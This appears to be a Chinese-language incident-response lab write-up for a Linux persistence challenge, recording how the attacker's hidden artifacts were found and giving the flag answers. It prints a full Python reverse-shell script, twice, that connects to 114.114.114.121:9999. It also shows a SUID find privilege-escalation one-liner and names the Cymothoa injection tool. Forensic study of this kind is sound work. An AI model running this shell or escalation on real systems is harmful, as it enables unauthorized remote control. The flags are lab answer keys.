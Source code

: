 ```yaml
---
title: '玄机应急响应-第三章'
date: 2024-06-08 13:00:00 +0800
categories: [应急响应,玄机靶场]
tags: []
---
```

# 权限维持-linux权限维持-隐藏

## 一,黑客隐藏的隐藏的文件 完整路径md5

发现`/tmp`下存在可疑的`.temp`文件

```shell
#!/usr/bin/python3

import socket,subprocess,os,sys, time

pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)

while 1:
        try:
                sys.stdout.flush()
                sys.stderr.flush()
                fdreg = open("/dev/null", "w")
                sys.stdout = fdreg
                sys.stderr = fdreg
                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                sdregs.connect(("114.114.114.121",9999))
                os.dup2(sdregs.fileno(),0)
                os.dup2(sdregs.fileno(),1)
                os.dup2(sdregs.fileno(),2)
                p=subprocess.call(["/bin/bash","-i"])
                sdregs.close()
        except Exception:
                pass
        time.sleep(2)
```

> $ cat /tmp/.temp/libprocesshider/1.py

> **flag{109ccb5768c70638e24fb46ee7957e37}**

## 二,黑客隐藏的文件反弹shell的ip+端口 {ip:port}

```shell
#!/usr/bin/python3

import socket,subprocess,os,sys, time

pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)

while 1:
        try:
                sys.stdout.flush()
                sys.stderr.flush()
                fdreg = open("/dev/null", "w")
                sys.stdout = fdreg
                sys.stderr = fdreg
                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                sdregs.connect(("114.114.114.121",9999))
                os.dup2(sdregs.fileno(),0)
                os.dup2(sdregs.fileno(),1)
                os.dup2(sdregs.fileno(),2)
                p=subprocess.call(["/bin/bash","-i"])
                sdregs.close()
        except Exception:
                pass
        time.sleep(2)
```

> $ cat /tmp/.temp/libprocesshider/1.py

> **flag{114.114.114.121:9999}**

## 三,黑客提权所用的命令 完整路径的md5 flag{md5} 

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
ctf:x:1000:33::/home/ctf:
sslh:x:104:108::/nonexistent:/bin/false
```

> $ cat /etc/passwd

查看用户列表

```shell
/bin/mount
/bin/ping
/bin/ping6
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/find
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

> $ find / -perm -u=s -type f 2>/dev/null

切换到`ctf`用户发现`find`命令可以提权

`/usr/bin/find . -exec /bin/sh \; -quit`

> **flag{7fd5884f493f4aaf96abee286ee04120}**

## 四,黑客尝试注入恶意代码的工具完整路径md5

```shell

root@xuanji:/tmp/.temp/libprocesshider# find / -name '.*' 2>/dev/null|grep -v 'sys'
/etc/.pwd.lock
/etc/cron.d/.placeholder
/etc/cron.daily/.placeholder
/etc/cron.hourly/.placeholder
/etc/cron.monthly/.placeholder
/etc/cron.weekly/.placeholder
/etc/init.d/.legacy-bootordering
/etc/skel/.bash_logout
/etc/skel/.bashrc
/etc/skel/.profile
/etc/mysql/conf.d/.keepme
/home/ctf/.bash_logout
/home/ctf/.bashrc
/home/ctf/.profile
/home/ctf/.bash_history
/opt/.cymothoa-1-beta
/root/.bashrc
/root/.profile
/root/.bash_history
/root/.viminfo
/root/.ssh
/root/.cache
/run/secrets/kubernetes.io/serviceaccount/..data
/run/secrets/kubernetes.io/serviceaccount/..2024_06_08_05_37_51.4144190794
/tmp/.temp
/tmp/.temp/libprocesshider/.git
/tmp/.temp/libprocesshider/.gitignore
/usr/share/php/.registry
/.dockerenv
```

搜索发现`/opt/.cymothoa-1-beta`是一个注入工具,`/opt/.cymothoa-1-beta/cymothoa`

> **flag{087c267368ece4fcf422ff733b51aed9}**

## 五,使用命令运行 ./x.xx 执行该文件  将查询的 Exec****** 值 作为flag提交 flag{/xxx/xxx/xxx}

```shell
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      10/sshd
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      11/apache2
tcp        0      1 10.244.4.78:53068       114.114.114.121:9999    SYN_SENT    588/python3
tcp        0      0 10.244.4.78:22          10.244.0.1:45653        ESTABLISHED 446/1
tcp6       0      0 :::22                   :::*                    LISTEN      10/sshd
```

> $ netstat -lanpt

运行后查看网络连接

```shell
/usr/bin/python3./1.py
```

> $ cat /proc/588/cmdline

```shell
/usr/bin/python3
```

> $ which python3

```shell
lrwxrwxrwx. 1 root root 9 Mar 23  2014 /usr/bin/python3 -> python3.4
```

> $ ls -lah /usr/bin/python3

> **flag{/usr/bin/python3.4}**









